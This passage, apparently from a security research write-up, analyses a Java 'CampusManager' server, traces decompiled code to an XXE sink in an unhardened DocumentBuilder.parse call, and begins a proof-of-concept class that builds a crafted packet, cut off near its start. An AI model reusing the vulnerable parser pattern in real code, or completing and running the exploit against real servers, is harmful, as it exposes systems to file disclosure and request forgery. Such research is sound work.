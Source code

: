 For no specific reasons, we focus on the verb being equal to `5` case so at `[15]` the XML content is retrieved from the packet via `com.bsc.util.CampusManagerPacket.getXml()`. This method is not particularly interesting, i.e. only some decompressing takes place. But the `com.bsc.server.CampusManager.CommandObject.CommandObject(String xml)` constructor implementation confirms our initial assumption.

```java
public CommandObject(final String xml) {
    this.commandName = null;
    this.args = new String[0];
    this.buffer = new StringBuffer();
    this.time = 0L;
    this.retval = false;
    this.index = 0;
    try {
        final StringReader reader = new StringReader(xml);
        final InputSource source = new InputSource(reader);
        final DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
        final DocumentBuilder builder = factory.newDocumentBuilder();
        final Document doc = builder.parse(source); // [16]
        doc.getDocumentElement().normalize();
        this.commandName = CampusManagerMachine.getXmlValue(doc, "commandName");
        if (this.commandName != null) {
            this.commandName = this.commandName.trim();
        }
        final String[] tmp = CampusManagerMachine.getXmlValues(doc, "arg");
        if (tmp != null) {
            this.args = tmp;
        }
    }
	...
```

At `[16]` we hit a well-known **XXE sink** `javax.xml.parsers.DocumentBuilder.parse(InputSource is)`. But to prove this, we need a little bit of code because the custom packet structure has to be created manually. I'll give you the full implementation here.

```java
import java.io.ByteArrayOutputStream;
import java.io.DataOutputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.StringReader;
import java.nio.ByteBuffer;
import java.nio.charset.Charset;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.util.zip.Deflater;

import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import org.w3c.dom.Document;
import org.w3c.dom.Node;
import org.w3c.dom.NodeList;
import org.xml.sax.InputSource;

public class BuildPacket {

	public static void main(String[] args) throws Exception {
		FileOutputStream fos = new FileOutputStream("test_packet");
		DataOutputStream dos = new DataOutputStream(fos);
		int requestId = 1;
		int responseID = 2;
```